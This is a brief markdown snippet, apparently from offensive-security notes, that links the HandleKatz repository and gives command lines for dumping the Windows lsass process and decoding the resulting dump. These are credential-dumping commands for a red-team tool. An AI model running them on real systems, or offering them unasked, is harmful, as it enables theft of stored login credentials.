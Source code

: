 ### Source
https://github.com/codewhitesec/HandleKatz  

### Dump lsass process using ReactOS MiniDumpWriteDumpA as Position Independent Code
```
loader.exe --pid:<pid> --outfile:<outfile>.dmp
```

### Decode resulting dump
```
python3 Decoder.py -input <lsassDump>.dmp -output <outfile>.dmp
```

